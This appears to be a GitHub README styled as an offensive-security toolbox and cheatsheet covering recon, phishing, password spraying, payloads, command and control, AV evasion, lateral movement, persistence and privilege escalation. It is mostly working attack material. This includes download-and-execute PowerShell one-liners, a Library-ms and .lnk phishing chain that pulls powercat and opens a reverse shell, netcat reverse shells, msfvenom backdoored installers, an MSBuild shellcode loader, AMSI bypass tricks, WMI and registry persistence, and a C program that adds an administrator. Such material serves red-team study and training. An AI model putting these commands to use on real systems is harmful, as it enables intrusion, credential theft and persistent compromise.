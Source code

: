 # Toolbox
Offensive Security Toolbox + Cheatsheet

#### Windows Attacker Tooling Setup Script
``` powershell
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/cdnet01/Toolbox/refs/heads/main/setup.ps1'))
```
^ this script is useful for setting up new windows attacker machines

## Recon and Scanning

<details>
<summary> google dorking </summary>

https://www.exploit-db.com/google-hacking-database
</details>

<details>
<summary> anymailfilder.com </summary>

useful for finding company email naming convention. 
</details>

<details>
<summary> gathercontacts </summary>

burpsuite extention that scrapes names from linkedin. requires manually searching for: 

`site:linkedin.com/in "company name"`
</details>

<details>
<summary> dnsrecon </summary>

``` bash
# enumerate dns records for a range, specifying the dns server.
dnsrecon -d domain.tld -n 8.8.8.8
```
</details>

<details>
<summary> knock.py </summary>

``` bash
# brute force subdomains, specifying a dns server
knockpy -d domain.com --bruteforce --dns 8.8.8.8

# conduct "recon" against a domain and save results
knockpy -d domain.com --recon --save foldername
```
</details>

<details>
<summary> sublist3r </summary>

``` bash
# brute force subdomains
sublist3r -d domain.com
```
</details>

<details>
<summary> ffuf </summary>

``` bash
# brute force subdomains via host header, filtering out 404 responses.
ffuf -w subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 404
```
</details>

<details>
<summary> masscan </summary>

``` bash
# scan entire /8 range on all ports. set rate to a fast but "safe" limit and output as binary (saves space)
masscan -p 0-65535 --rate 15000 10.0.0.0/8 -oB filename.bin

# convert binary output into a greppable format
masscan --open --readscan filename.bin -oG filename.gnmap

# from here, you can grep for live hosts, open ports, and more.
grep /open/ filename.gnmap | cut -d ' ' -f 2 | sort -uV > livehosts.txt
```
</details>

<details>
<summary> nmap </summary>

``` bash
# without using host discovery, SYN connect scan on range and only output open ports.
sudo nmap -Pn -sT --open 10.140.21.1-255

# full service scan on a /24 range. output in all formats (grep-able, xml, binary)
sudo nmap -sV 10.10.20.0/24 -oA filename

# view all NSE scripts
ls /usr/share/nmap/scripts/*.nse

# run smb discovery
sudo nmap -Pn -p445 --open --script=smb-os-discovery.nse 10.140.13.27

# privide a file containing rfc1918 rangesm, then DNS reverse lookup and output into grep-able file
namp -iL rfc1918.txt -sL --dns-servers 10.10.14.98 -oG
```
</details>

<details>
<summary> eyewitness </summary>

``` bash
# feed an xml list of hosts to be scanned for webpages
EyeWitness.py --web -x filename.xml

# feed a newline separated list of domains 
eyewitness --web -f domains.txt --threads 10
```
</details>

<details>
<summary> smtp enumeration </summary>

``` bash
# connect to a host running smtp
nc -nv 192.168.50.8 25

# ask the smtp server to verify an email address
VRFY root
```
</details>

<details>
<summary> snmp enumeration </summary>

``` bash
# scan for snmp (runs on UDP)
sudo nmap -sU --open -p 161 192.168.50.1-254 -oG open-snmp.txt

# brute force a list of ips
echo public > community
echo private >> community
echo manager >> community
for ip in $(seq 1 254); do echo 192.168.50.$ip; done > ips
onesixtyone -c community -i ips

# check a specific host
snmpwalk -c public -v1 -t 10 192.168.50.151
```
</details>

## Phishing

<details>
<summary> Website Cloning </summary>

We’ll use -E to adjust file extensions to match MIME types, -k to convert links to local copies, and -K to save originals with a .orig extension. With -p, we’ll grab all assets needed to view the page. The -e robots=off option ignores robots.txt. We’ll allow external host downloads with -H, but restrict them to the zoom.us domain via -Dzoom.us. Finally, -nd saves everything in a flat directory in the current working directory.

```bash
wget -E -k -K -p -e robots=off -H -Dzoom.us -nd "https://zoom.us/signin#/login"
```
</details>

<details>
<summary> config.Library-ms </summary>

setup a webdav listener on the attacking machine

```bash 
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

create a file named 'config.Library-ms' with the following contents:
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

create a .lnk file, entering the following into the input field and name it 'automatic_configuration'
``` powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```

Next, we'll start the Python3 web server on port 8000 to serve powercat.ps1, WsgiDAV for our WebDAV share to serve the the automatic_configuration.lnk and config.Library-ms files, and a Netcat listener on port 4444 to catch the reverse shell.

```bash
# download powercat
wget https://github.com/besimorhino/powercat/raw/refs/heads/master/powercat.ps1

python3 -m http.server
```

copy the automatic_configuration.lnk and config.Library-ms to WebDAV directory. In a normal assessment we would most likely send the library file via email but for this example, we'll use the \\192.168.50.195\share SMB share to simulate the delivery step.

To upload the library file to the SMB share, we'll use smbclient with the -c parameter to specify the put config.Library-ms command. Before we execute smbclient, we need to change our current directory to the library file's directory. We'll also delete the previously created test.txt file from the WebDAV share.

``` bash
cd ~/webdav

smbclient //192.168.50.195/share -c 'put config.Library-ms'
```


</details>

## Password Attacks

<details>
<summary> cewl.rb </summary>

Use CeWL to spider a target website and build a unique wordlist to use for cracking
</details>

<details>
<summary> hydra </summary>

``` bash
# trim word list with hydra's pw-inspector. min password length set to 8, at least 3 critera must be met, and set criteria to (l) lowercase, (u) uppercase, (n) numbers, (p) printable chars, (s) special chars.
pw-inspector -i breachdata.txt -o trimmed.txt -m 8 -c 3 -lunps

# password spray SMB on many hosts using username file
hydra -L users.txt -p 'p@ssw0rd' -M windows-hosts.txt smb2

# password spray a domain controller
hydra -L users.txt -p Summer2025! -m workgroup:{name} 10.140.10.2 smb2

# check valid creds against a list of hosts
hydra -m workgroup:{company} -l username -p password -M smbservers.txt smb2

# attack ssh
hydra -L users.txt -P passwords.txt ssh://102.168.1.38
```
</details>

<details>
<summary> ffuf </summary>

``` bash
# find usernames matching on a response containing "username already exists"
ffuf -w users.txt -X POST -d "username=FUZZ&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://domain.com/login -mr "username already exists"

# brute force web login creds
ffuf -w users.txt:W1,passwords.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://domain.com/login -fc 200
```
</details>

<details>
<summary> netexec </summary>

``` powershell
# use netexec to enumerate password and user list against a desired service (in this case, smb)
nxe.exe -u "C:\usernames.txt" -p "C:\passwords.txt" -d domain.com --continue-on-success --no-bruteforce 10.20.13.4
```
</details>

<details>
<summary> hashcat </summary>

Effective rulesets can be found in ```/usr/share/hashcat/rules```

``` bash
# use some rules against a password list 
hashcat -r demo2.rule --stdout demo.txt

# crack kerberos TGS-REP hash (output from GetUserSPNs.py) and append 4 digits to the passwords 
hashcat -m 13100 -a 6 hashfile.txt passwordlist.txt ?d?d?d?d
```
hash types can be found at: https://hashcat.net/wiki/doku.php?id=example_hashes

useful hash modes (-m value):

- 1000: NTLM
- 5600: NTLMv2-SSP
- 13100: Kerberos RC4 TGS Ticket (denoted by $krb5tgs$23$)

</details>

## Initial Access
Ports of interest

- 22 - SSH
- 135 - RPC
- 139, 445 - SMB
- 3389 - RDP
- 5985, 5986 - WMI/WinRM

<details>
<summary> impacket </summary>

```bash 
# connect to mssql server and specify the domain controller ip
mssqlclient.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# connect to smb server
smbclient.py domain.com/username:password@10.13.12.3

# execute code using the psexec service 
psexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# execute code using the smb service
smbexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# execute code using wmic
wmiexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# setup an smb listenter, and run a command on a target using captured hash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
</details>

<details>
<summary> netexec </summary>

``` powershell
# use netexec to enumerate rids
nxe.exe smb 10.140.13.3 -u username -p 'password' --rid-brute

# list shares
netexec smb 10.140.13.3 -u username -p 'password' --shares
```
</details>

<details>
<summary> runas </summary>

``` powershell
# (run this as administrator) launch a cmd shell that will execute all network communication with the injected credentials for authentication.
runas.exe /netonly /user:domain.com\username cmd.exe
```
</details>

<details>
<summary> evilwinrm </summary>

``` bash 
evil-winrm -i 10.13.10.3 -u "username" -p "password"
```

</details>


<details>
<summary> xfreerdp </summary>

``` bash
# rdp into a server ignoring any self signed certs
xfreerdp /u:username /p:password /v:10.230.21.12 /cert:ignore /dynamic-resolution
```
</details>

<details>
<summary> netcat </summary>

``` bash
# open listener for reverse shell on attacker machine
nc -lvp 4444

# shovel the shell from the target to the attacker
nc 192.168.1.31 4444 -e /bin/bash
```
</details>

## Payloads
common payload types: 

1. office macros
2. office auto DDE (default on excel and outlook)
3. ISO images 
4. zip files (often encrypted)
5. lnk files with rundll32

<details>
<summary> msfvenom </summary>

``` bash 
# view payload formats
msfvenom --list formats

# generate malicious installer file
msfvenom -p windows/meterpreter/reverse_http lhost=ATTACKER_IP lport=8976 -f msi -o setup.msi

# backdoor a legit exe. The binary will still work as usual but execute an additional payload silently.
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=10.209.28.34 lport=4444 -b "\x00" -f exe -o puttyX.exe
```
</details>

<details>
<summary> genisoimage </summary>

``` bash
# place payload inside of an iso container
genisoimage -o installer.iso setup.msi
```
</details>

## Command & Control
<details>
<summary> metasploit </summary>

``` bash
# setup multi handler
use exploit/multi/handler

# set payload 
set PAYLOAD windows/meterpreter/reverse_http

# view config
show options

# allow listener to receive multiple connections without having to restart it
set ExitOnSession false

# meterpreter commands
sysinfo
getuid
ps
# migrate to a new process
migrate -N explorer.exe
# start keylogger
keyscan_start
keyscan_dump
# file control
upload local_filename
download remote_filename
edit remote_filename
```
</details>

<details>
<summary> sliver </summary>

``` bash
# setup an https listener
https 

# generate an exe payload to only run for a specified username
generate --os windows --name filename --limit-username user1 --http LISTENING_ADDR

# generate a dll payload (run dll payload on victim with: regsvr32 filename.dll)
generate --os windows --arch 64bit --format shared --http https://ATTACKER_IP

# view payload 
impants

# view sessions
sessions

# use a session (use first few letters of session id)
use 1b
```
</details>

## Evasion

<details>
<summary> shellter </summary>

Shellter is a dynamic shellcode injection tool and one of the most popular free tools capable of bypassing antivirus software.

``` bash
apt-cache search shellter
sudo apt install shellter
sudo apt install wine
sudo dpkg --add-architecture i386 && apt-get update && apt-get install wine32

# If we are using an ARM processor, we need to a slightly different set of commands.
sudo apt install wine
sudo dpkg --add-architecture amd64
sudo  apt install -y qemu-user-static binfmt-support
sudo apt-get update && apt-get install wine32
```
</details>

<details>
<summary> veil </summary>

``` bash
# use veil to produce payloads, configurable with metasploit
veil 
use evasion 
use powershell/meterpreter/rev_tcp
set lhost 192.168.1.1
set lport 443
generate
```
</details>

<details>
<summary> Powershell Memory Injection </summary>

A basic templated script that performs in-memory injection is shown in the listing below. The script starts by importing VirtualAlloc and CreateThread from kernel32.dll as well as memset from msvcrt.dll. These functions will allow us to allocate memory, create an execution thread, and write arbitrary data to the allocated memory, respectively. We will allocate the memory and execute a new thread in the current process (powershell.exe), rather than a remote one.

``` powershell
# run this within the x86 version of powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

<place shellcode here>

```
Generate powershell reflection shellcode 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f psh-reflection
```

</details>

<details>
<summary> msbuild.exe </summary>

``` powershell
# if msbuild is enabled, it can be used to execute arbitrary shellcode. first, lets find msbuild
ls C:\Windows msbuild.exe -Recurse 2>$null | % FullName

# if found, chose either a 32 bit or 64 bit version. whatever version is chosen, shellcode needs to match. Once you have created your xml build.xml file, you can run it
C:\Windows\Microsoft.NET\assembly\GAC_32\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe C:\build.xml
```
generate shellcode
``` bash
# generate an msfvenom payload in csharp. this will output a byte format compatible with c#
msfvenom -p windows/meterpreter/reverse_tcp lhost=eth0 lport=9871 -f csharp | tee /tmp/payload.txt

# add the output of msfvenom to the below build.xml file where it says "// PUT SHELLCODE HERE"

# setup your listener 
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 9871
```

build.xml (without placing code on disk)
``` xml
<Code Type="Class" Language="cs" Source="\\19.21.28.12\webdav\calc.cs">
```

build.xml withshellcode
``` xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
 
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
            // PUT SHELLCODE HERE
 
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)buf.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, (IntPtr)(funcAddr), buf.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;
            IntPtr pinfo = IntPtr.Zero;
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
</details>

<details>
<summary> AMSI Bypassing </summary>

``` powershell
# AMSI (antimalware scan interface) was addedd in powershell version 3, previous version wont have it. For example, the following command (run from cmd) wont trigger AMSI
powershell -version 2 -command " 'amsiutils' " 

# String modification will also work to bypass amsi. For example, the following powershell command wont trigger signatures
"Invoke"+"-Mimikatz"
```
</details>

<details>
<summary> Comment Stripping </summary>

``` powershell
# by removing comments, some AV/EDR may fail to signature certain things
PowerStripper.exe bad_script.ps1
```
</details>

<details>
<summary> Testing Windows Defender </summary>

``` powershell
# making modifications to a payload until it no longer triggers windows defender is another option. This tool will show the exact byte that triggered defender 
DefenderCheck.exe payload.exe
```
</details>

<details>
<summary> chameleon </summary>

``` powershell
https://github.com/klezVirus/chameleon
```
</details>


## Situational Awareness

There are several key pieces of information we should always obtain:

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes


<details>
<summary> linux </summary>

``` bash
cat /etc/passwd
sudo -l
# recursively search for a case insensitive filename from root directory
find / -type f -iname *.db
# recuresiveley search files for secrets from root directory
grep -Inri -e passw -e secret -e key / 2>/dev/null
# find SUID files
find / -perm -4000 -ls 2>/dev/null
# find writable config files
find /etc -perm 2
# find readable bash histories 
find /home -name .bash_history -perm 4 2>/dev/null
# find writable authorized hosts files
find /home -name authorized_hosts -perm 2 2>dev/null
```
</details>

<details>
<summary> windows </summary>

``` bat
rem misc commands for situational awareness
systeminfo
ipconfig /all
route print 
netstat -ano
Get-Process

rem see powershell history
Get-History

rem find the logged powershell history from PSReadline
(Get-PSReadlineOption).HistorySavePath

rem see what groups your user is a member of. Builtin grpuops of note are Backup Operators (can create backup of all files on system), Remote Desktop Users (can RDP to the machine), and Remote Management Users (can access system with WinRM)
whoami /groups

rem check for SeImpersonatePrivilege enabled for priv esc
whoami /priv

rem show DNS details
ipconfig /displaydns

rem show all user accounts (local or domain)
net user
Get-LocalUser
net1.exe user
net user /domain

rem show information about a specific user (local or domain)
net user [username]
net user [username] /domain

rem list all groups (local or domain)
net localgroup
Get-LocalGroup
net group /domain

rem show membership of a specific group (local or domain)
net localgroup "groupname"
Get-LocalGroupMember "groupname"
net group "groupname" /domain
net group "Domain Admins" /domain

rem show password policy (local or domain)
net accounts
net accounts /domain

rem add a user
net user [username] password /add

rem add user to local admins
net localgroup administrators [username] /add

rem show accounts with a bad password login count > 0
Get-ADObject -Filter 'badPwdCount -gt 0' -Server domain.com

rem check for windows credential guard
Get-ComputerInfo

rem show firewall settings
netsh firewall show state
netsh firewall show config
netsh advfirewall show allprofiles state

rem show all installed appilcations (32 bit)
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

rem show all installed appilcations (64 bit)
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

rem show scheduled tasks
schtasks /query /fo LIST /v

rem show patch level 
wmic qfe get Caption,Description,HotFixID,InstalledOn

rem find file recursively
dir /s *name*

rem find secrets recursiveley
dir /s *pass* == *cred* == *vnc* == *.config*

rem look for user files containing potentially sensitive information
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

rem query for SPNs
setspn.exe -T * -Q */*

rem use sysinternals adexplorer to fetch active directory information
ADExplorer.exe 

rem look for keepass database
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

### Microsoft Management Console

This native windows tool can be used in order to enumerate active directory. In order to install the software:
1. Press Start
2. Search "Apps & Features" and press enter
3. Click Manage Optional Features
4. Click Add a feature
5. Search for "RSAT"
6. Select "RSAT: Active Directory Domain Services and Lightweight Directory Tools" and click Install

You can start MMC by using the Windows Start button, searching run, and typing in MMC

(if running with runas on the attacker machine, you will need to configure the forrests. if running on a domain joined machine, some of this can be skipped.)

In MMC, we can now attach the AD RSAT Snap-In:

1. Click File -> Add/Remove Snap-in
2. Select and Add all three Active Directory Snap-ins
3. Click through any errors and warnings
4. Right-click on Active Directory Domains and Trusts and select Change Forest
5. Enter domain.com as the Root domain and Click OK
6. Right-click on Active Directory Sites and Services and select Change Forest
7. Enter domain.com as the Root domain and Click OK
8. Right-click on Active Directory Users and Computers and select Change Domain
9. Enter domain.com as the Domain and Click OK
10. Right-click on Active Directory Users and Computers in the left-hand pane
11. Click on View -> Advanced Features

If we had the relevant permissions, we could also use MMC to directly make changes to AD, such as changing the user's password or adding an account to a specific group.
</details>

<details>
<summary> impacket </summary>

``` bash
# extract list of all users
GetADUsers.py domain.com/username:password -dc-ip 10.140.10.2 -all

# enumerate user SPNs on a remote machine
GetUserSPNs.py domain.com/username:password -request -dc-ip 10.120.2.59
```
</details>

<details>
<summary> seatbelt.exe </summary>

``` powershell 
# get info on AV
seatbelt.exe AntiVirus

# get info on installations
seatbelt.exe InstalledProducts

# get system info
seatbelt.exe -q -group=system

# show commands that can be run against remote computers
seatbelt.exe -q | findstr +

# launch a module against a remote computer
seatbelt.exe UAC 'computername=10.140.12.13' -username=company\user -password=password
```
</details>

<details>
<summary> bloodhound </summary>

``` bash
# using python tooling, remotely retreive AD information for loading into bloodhound
bloodhound-python -d domain.com -u username -p password -c ALL -ns 10.10.192.2

# using c# tooling (ps1 tooling also available), retreive AD infomation for loading into bloodhound and do not touch domian controllers (better for evasion)
Sharphound.exe --CollectionMethods All --Domain domain.com --ExcludeDCs

# start bloodhound application
./BloodHound
```
</details>

## Lateral Movement
<details>
<summary> windows - living off the land </summary>

``` bat
rem using ping, scan a network range for live hosts (from 1-254)
for /l %i in (1,1,254) do @ping 192.168.1.%i -w 10 -n 1 | find "Reply"

rem powershell one-liner to scan a host for open ports
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null

rem enable clientside WinRM components (enabled by default on windows serverside, but not on clients)
Enable-PSRemoting

rem enable CredSSP
winrm set winrm/config/client/auth '@{CredSSP ="true"}'

rem trust any host
Set-Item WSMan:localhost\client\trustedhosts -value *
```
</details>

<details>
<summary> Permission Delegation </summary>

``` powershell
# if a compromised user account has "genericwrite" for a group (found using bloodhound), then they can add themselves to that group
Add-ADGroupMember "IT Support" -Members "username"

# verify that it worked 
Get-ADGroupMember -Identity "IT Support"

# force the DC sync
gpupdate /force

# if the compromised account has inherited the ForceChangePassword Permission Delegation, we can change a group member's password
$Password = ConvertTo-SecureString "newpassword" -AsPlainText -Force 
Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password 
```
</details>

<details>
<summary> get SAM hive (local accounts) </summary>

``` bat
rem get SAM hive
reg save HKLM\SAM C:\SAM.hive

rem get the key for decrypting SAM
reg save HKLM\SYSTEM C:\SYSTEM
```
``` bash
# exfil the above files back to attcker machine, and dump the hashes
secretsdump.py -ntds ~/sam.hive -system ~/system -outputfile hashes.txt LOCAL
```
</details>

<details>
<summary> pass-the-hash (NTLM) </summary>

1. Obtain NT hashes from SAM or ntds.dit
2. Use the hashes themselves (with SMB) as the password with tools like psexec 
</details>

<details>
<summary> sniffing (NetNTLMv2 challenge/reponse) </summary>

1. start a fake SMB server
2. coerce NTLMv2 authentication (ip based) or wait for authentication (vuln scanners), or embedding a remote picture (hosted on your smb shared) in a word document
3. challenge the client, record response 

#### responder
``` bash
# assuming the attacker is on the same network as the target, Responder can resolve any LLMNR requests and capture NTLMv2 hashes.
sudo Responder.py -I eth0

# once running, once the victim attempts to connect to a system (via SMB)that does not exist, responder will posion the resolution of the host, and capture the hash. 

# once the hash is obtained, the hash can be cracked with hashcat
hashcat -m 5600 /tools/responder/logs/* /usr/share/rockyou.txt
```
#### pcap
``` bash
# start listener on port 445 on attacker machine 
sudo tcpdump -nv -w winauth.pcap port 445

# extract hashes from pcap
sudo /pcredz/pcredz -vf winauth.pcap

# crack NTLMv2 challenge/response
hashcat -m 5600 /pcredz/logs/NTLMv2.txt passwords.txt 
```
</details>

<details>
<summary> kerberoast </summary>

``` bash
# find user accounts (not computer accounts) who have registered SPNs (or get them from bloodhound)
GetUserSPNs.py domain.com/username:password -request -dc-ip 10.120.2.59 > spns.txt

# extract just the TGS tickets from the GetUserSPNs output
grep krb5tgs spns.txt > tgs.txt

# GetUserSPNs will provide the TGS ticket, which can be cracked with hashcat (in this case prepend password guesses with a single digit)
hashcat -m 13100 -a 7 tgs.txt ?d rockyou.txt
```
</details>

<details>
<summary> pass-the-ticket (kerberos) </summary>

``` bash
# all we're doing here, is stealing a user's TGT and using it
# on the compromised user's machine running mimikatz, list TGT ticket
kerberos::tgt

# export the TGT ticket
kerberos::list /export

# on new system, load the stolen TGT ticket
kerberos::ptt ticket.kirbi

# now, in the same cmd prompt, you can authenticate to services as the compromised user
psexec \\dc01 cmd.exe
```
</details>

## Persistence
- create a new user/password
- add attacker ssh public key to authorized_keys file
- create a scheduled task
- create a WMI event consumer
``` powershell
# create an event filter (trigger called) "Updater" which looks for failed logins (event ID 4625) from "fakeuser"
$filter = SetWmiInstance -Namespace root/subscription -Class __EventFilter -Arguments @{EventNamespace = 'root/cimv2'; Name = "UPDATER"; Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_NTLogEvent' AND TargetInstance.EventCode = '4625' AND TargetInstance.Message LIKE '$fakeuser%'"; QueryLanguage = 'WQL'}

# setup the event consumer action (consumer)
$consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments @{Name = "UPDATER"; CommandLineTemplate = "C:\payload.exe"}

# setup the binding to look for the trigger and run the consumer
$FilterToConsumerBunding = Set-WmiInstance -NameSpace root/subscription -Class __FilterToConsumerBinding -Arguments @{Filter = $Filter; Consumer = $Consumer}
```
- add an executable/script to the windows startup folder
- registry keys
``` bat
rem these keys are often used for persistence
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
rem cmd autorun - when cmd loads, it looks for registry variables to execute first
HKCU\SOFTWARE\Microsoft\Command Processor\AutoRun
rem HKCU Load - not used in modern windows but still supported
HKCU\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows

rem example of adding a user registry key called "AppUpdateMon" which runs a malicious binary each time the user logs in
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "AppUpdateMon" /t REG_SZ /F /D "C:\payload.exe"
```


## Privilege Escalation

<details>
<summary><b>Linux</b></summary>

1. [GTFOBins](https://gtfobins.github.io/)  
2. [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)  
3. Cheatsheets: [here is a good one](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

</details>

<details>
<summary><b>Windows</b></summary>

<div style="margin-left:20px">

<details>
<summary>LOLBAS</summary>
<a href="https://lolbas-project.github.io/#">https://lolbas-project.github.io/#</a>
</details>

<details>
<summary>UAC Bypass</summary>
<a href="https://github.com/hfiref0x/UACME">https://github.com/hfiref0x/UACME</a>
</details>

<details>
<summary> Automated Checks </summary>

1. winpeas (https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
2. powerup.ps1 (https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
3. seatbelt (https://github.com/GhostPack/Seatbelt)

</details>

<details>
<summary>scheduled tasks</summary>

this is simmilar to service binary hijacking. If you have the proper permissions on an executable for a scheduled task, you can hijack it and its permissions. 

``` bat
rem query scheduled tasks, look for non-system tasks
schtasks /query /fo LIST /v
```
</details>

<details>
<summary> Unquoted Service Paths </summary>

an unquoted service path search might look like this 
1. C:\Program.exe
2. C:\Program Files\Enterprise.exe
3. C:\Program Files\Enterprise Apps\Current.exe
4. C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe

``` bat
rem find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

rem List of services with binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
if you can find a service path which you have the proper permissions to write to, you can add a malicious binary with the proper name in order to hijack service execution. 

</details>

<details>
<summary> Service Binary Hijacking </summary>
overwrite a service executable with our own

``` bat
rem List services with binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

rem check permissioms of a service binary
icacls "C:\xampp\mysql\bin\mysqld.exe"
```
next, create a new binary on the attacker machine as `service.c`. You can also use msfvenom or other payload providers. 
``` c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
now, we can cross compile it and put it on the victim machine and restart the service. 

``` bash
x86_64-w64-mingw32-gcc service.c -o service.exe
```
</details>

<details>
<summary> DLL search order hijacking </summary>

The following listing shows the standard search order taken from Microsoft Documentation:
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
